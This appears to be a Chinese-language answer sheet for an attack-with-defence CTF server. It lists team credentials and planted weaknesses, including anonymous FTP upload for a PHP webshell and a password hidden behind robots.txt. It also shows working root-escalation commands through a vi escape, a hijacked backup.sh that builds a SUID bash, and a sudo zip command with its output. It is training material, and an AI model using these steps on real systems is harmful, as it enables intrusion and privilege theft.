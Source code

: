 # AWD 模式攻击

## 凭证信息 (Credentials)

### 默认配置使用 T1 的凭证 (密码不是加密后的 hash ，用 hash 做的密码)
-   **MySQL Root 用户:**
    ```
    T1: root:$1$0kRGbLi5$o1jTxIVwcDWSOcKtTLukM1
    T2: root:$1$xDRC88E9$NuBtIeH1q2Xndltvfk0Wu0
    ```
-   **Linux Root 用户:**
    ```
    T1: root:$1$DcI4hlB5$7Fzb9WR6XrBFwjHgBcpA61
    T2: root:$1$zu5fqmiV$hRUIt5Hp0LQwlBSDC5XuA0
    ```
-   **Linux welcome 用户:**
    ```
    T1: welcome:welcome
    T2: welcome:welcome
    ```
-   **WEB admin 用户:**
    ```
    T1: admin:babygirl94andrew10
    T2: admin:jeanjeandianacarolina
    ```
## FTP 服务

-   允许匿名登录。
-   可以访问服务器根目录 (`/`)。
-   允许上传文件。

## Web 目录权限 (`/var/www/html/`)

-   权限设置为 `777` (可读、可写、可执行)。
-   **利用方式:** 结合 FTP 匿名上传权限，可以直接上传 PHP Webshell (例如 `shell.php`) 到 Web 根目录，实现远程代码执行 (RCE)。

## Web robots.txt 文件
-   **提示信息:** 在 `robots.txt` 文件中可以找到以下内容：
    ```
    User-agent: *
    Disallow: /xxxxx
    ```
    之后你可以看到
    ```
    噢，防止我忘记密码，我把密码放在这里一份

    pw: xxxxxxxx
    ```
    xxxxxxxx 将是 admin 用户的密码

## `welcome` 用户密码复用

-   `welcome` 用户的 Linux 登录密码与其用户名相同，均为 `welcome`。
-   **提示信息:** 在 `/home/welcome/note.txt` 文件中可以找到以下内容：
    ```
    From root@localhost:

        朋友，你的密码太弱了，一旦知道你的用户名，不久知道密码了吗？

                        To welcome@localhost
    ```
    这暗示了 `welcome` 用户名和密码相同。

## Sudo 滥用
-   www-data 用户:
```bash
root@dmsy-awd:~# sudo -u www-data sudo -l
Matching Defaults entries for www-data on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dmsy-awd:
    (welcome) NOPASSWD: /usr/bin/vi
```
    可以 !bash 提权

-   welcome 用户:
```bash
root@dmsy-awd:~# sudo -u welcome sudo -l
[sudo] password for welcome: 
Matching Defaults entries for welcome on dmsy-awd:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on dmsy-awd:
    (ALL) PASSWD: /home/*/backup.sh, /bin/zip
```
#### 提权路径
```bash
welcome@dmsy-awd:~$ mv backup.sh backup.sh.bak
welcome@dmsy-awd:~$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > backup.sh
welcome@dmsy-awd:~$ chmod +x backup.sh
welcome@dmsy-awd:~$ ls -la /tmp/bash 
-rwsr-sr-x 1 root root 1168776 Apr 23 10:43 /tmp/bash
welcome@dmsy-awd:~$ /tmp/bash -p
bash-5.0# id
uid=1000(welcome) gid=1000(welcome) euid=0(root) egid=0(root) groups=0(root),1000(welcome)

welcome@dmsy-awd:~$ TF=$(mktemp -u)
welcome@dmsy-awd:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
\# id
uid=0(root) gid=0(root) groups=0(root)
```

## SUID 提权
